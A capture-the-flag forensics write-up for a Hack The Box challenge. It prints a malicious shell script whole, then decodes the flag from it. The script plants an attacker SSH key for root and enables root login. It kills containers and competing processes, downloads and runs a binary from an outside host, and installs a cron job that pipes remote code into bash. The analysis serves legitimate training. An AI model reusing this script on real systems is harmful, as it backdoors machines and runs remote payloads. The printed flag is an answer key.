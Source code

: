 # Forensics - It Has Begun

## Description
> The Fray is upon us, and the very first challenge has been released! Are you ready factions!? Considering this is just the beginning, if you cannot musted the teamwork needed this early, then your doom is likely inevitable.

<br>
<br>

## Walkthrough

In this challenge we were given a file called `script.sh` whose content I want to insert here completely.

```bash
#!/bin/sh

if [ "$HOSTNAME" != "KORP-STATION-013" ]; then
    exit
fi

if [ "$EUID" -ne 0 ]; then
    exit
fi

docker kill $(docker ps -q)
docker rm $(docker ps -a -q)

echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
echo "128.90.59.19 legions.korp.htb" >> /etc/hosts

for filename in /proc/*; do
    ex=$(ls -latrh $filename 2> /dev/null|grep exe)
    if echo $ex |grep -q "/var/lib/postgresql/data/postgres\|atlas.x86\|dotsh\|/tmp/systemd-private-\|bin/sysinit\|.bin/xorg\|nine.x86\|data/pg_mem\|/var/lib/postgresql/data/.*/memory\|/var/tmp/.bin/systemd\|balder\|sys/systemd\|rtw88_pcied\|.bin/x\|httpd_watchdog\|/var/Sofia\|3caec218-ce42-42da-8f58-970b22d131e9\|/tmp/watchdog\|cpu_hu\|/tmp/Manager\|/tmp/manh\|/tmp/agettyd\|/var/tmp/java\|/var/lib/postgresql/data/pоstmaster\|/memfd\|/var/lib/postgresql/data/pgdata/pоstmaster\|/tmp/.metabase/metabasew"; then
        result=$(echo "$filename" | sed "s/\/proc\///")
        kill -9 $result
        echo found $filename $result
    fi
done

ARCH=$(uname -m)
array=("x86" "x86_64" "mips" "aarch64" "arm")

if [[ $(echo ${array[@]} | grep -o "$ARCH" | wc -w) -eq 0 ]]; then
  exit
fi


cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777 0xda4.0xda4.$ARCH; ./0xda4.0xda4.$ARCH;
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; tftp legions.korp.htb -c get 0xda4.0xda4.$ARCH; cat 0xda4.0xda4.$ARCH > DVRHelper; chmod +x *; ./DVRHelper $ARCH;
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; busybox wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777;./0xda4.0xda4.$ARCH;
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

Overall, the script aims to use various mechanisms to maintain and automate access to the system.

## Solution

The script adds an SSH key to the file `authorized_keys` where we also have the first part of the flag in reversed format.

`echo "tS_u0y_ll1w{BTH" | rev`

![Screenshot0](./screenshots/0.png)

The second part of the flag is present in the last line of the script in base64 encoded form where the script adds a crontab which should download a different script every five minutes via `curl` and execute it via `bash -c.

`echo "NG5kX3kwdVJfR3IwdU5kISF9" | base64 -d`

![Screenshot1](./screenshots/1.png)

__Flag:__ `HTB{w1ll_y0u_St4nd_y0uR_Gr0uNd!!}`
